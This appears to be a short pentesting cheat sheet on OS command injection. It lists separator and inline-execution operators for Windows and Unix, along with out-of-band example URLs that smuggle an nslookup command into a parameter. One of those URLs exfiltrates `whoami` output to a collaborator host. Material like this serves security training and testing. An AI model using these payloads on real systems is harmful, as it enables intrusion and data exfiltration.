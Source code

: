## Ways to Inject Commands
A variety of shell metacharacters can be used to perform OS command injection attacks.

### Command Separators
The following command separators work on both Windows and Unix-based systems:
- `&`
- `&&`
- `|`
- `||`

The following command separators work only on Unix-based systems:
- `;`
- Newline (`0x0a` or `\n`)

### Inline Execution (Unix-based systems only)
- Backticks: `` `injected command` ``
- Dollar character: `$(injected command)`

### Out-of-Band (OOB) Channel

Use a controlled server (e.g., Burp Collaborator) to detect DNS or HTTP requests.

**Example:**
`https://vulnerable-website/endpoint?parameter=x||nslookup+burp.collaborator.address||`

**Tip:** Exfiltrate command output via OOB:

**Example:**
`https://vulnerable-website/endpoint?parameter=||nslookup+\`whoami\`.burp.collaborator.address||`



# Command Injection with Operators

To inject an additional command to the intended one, we may use any of the following operators:

![image](https://github.com/user-attachments/assets/b5f941aa-bca4-4158-8d7c-b6d164258fd4)



Operators can be used to inject additional commands, allowing either or both commands to execute. The approach involves providing the expected input (e.g., an IP address), followed by an operator, and then the injected command.

## Supported Operators
The following operators can be used for command injection:
- **Cross-platform operators** (work on both Windows and Unix-based systems):
  - `&`
  - `&&`
  - `|`
  - `||`
- **Unix-only operators** (work on Linux and macOS, but not on Windows):
  - `;` (semicolon)
  - Newline (`0x0a` or `\n`)
  - Backticks: `` `injected command` ``
  - Sub-shell: `$(injected command)`
